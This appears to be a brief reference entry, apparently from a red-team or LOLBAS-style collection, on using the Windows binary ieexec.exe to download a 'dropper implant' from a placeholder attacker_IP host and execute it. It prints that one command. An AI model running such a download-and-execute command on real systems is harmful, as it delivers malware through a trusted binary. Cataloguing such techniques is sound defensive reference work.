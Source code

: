 # ieexec

Downloads the dropper implant from a web server then executes it.

```
C:\> ieexec.exe http[s]://<attacker_IP>[:<PORT>]/implant.exe
```

---
## References

### LOLBAS

- [LOLBAS: `ieexec`](https://lolbas-project.github.io/lolbas/Binaries/Ieexec/)